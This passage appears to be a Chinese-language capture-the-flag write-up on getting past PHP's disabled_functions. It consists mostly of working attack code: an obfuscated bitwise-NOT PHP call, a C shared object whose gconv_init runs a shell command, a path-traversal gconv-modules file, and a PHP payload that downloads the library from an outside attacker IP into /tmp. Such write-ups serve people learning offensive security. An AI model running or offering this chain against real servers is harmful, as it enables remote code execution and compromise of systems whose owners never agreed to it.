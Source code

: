 手动加 …

```
[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][!%FF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][!%FF]([~%9A%91%9B][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]())));
```

![image-20220326223037653](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203262230783.png)

###  绕过disabled_functions

利用`iconv`去绕过df

参考：https://xz.aliyun.com/t/8669#toc-8

**流程：**

用自己的linux系统

创建payload.c

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  puts("pwned");
  system("bash -c '/readflag > /tmp/sna'");
  exit(0);
}

```

生成so文件（这儿介绍哈so文件）

```c
gcc payload.c -o payload.so -shared -fPIC 
```

再创建一个gconv-modules文件

```
module  PAYLOAD//    INTERNAL    ../../../../../../../../tmp/payload    2
module  INTERNAL    PAYLOAD//    ../../../../../../../../tmp/payload    2
```

把这两个文件放到服务器上，记得打开端口，然后创建一个网站，能直接访问到网站的目录。

![image-20220326221929952](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203262219055.png)

然后利用 `SplFileObject` 写 **payload.so** 和 **gconv-modules**

一定等响应包状态为200，才是写进去文件了

```php
a=$url="http://xx.xx.171.248:10000/payload.so";$file1=new SplFileObject($url,'r');$a="";while(!$file1->eof()){$a=$a.$file1->fgets();}$file2 = new SplFileObject('/tmp/payload.so','w');$file2->fwrite($a);

```
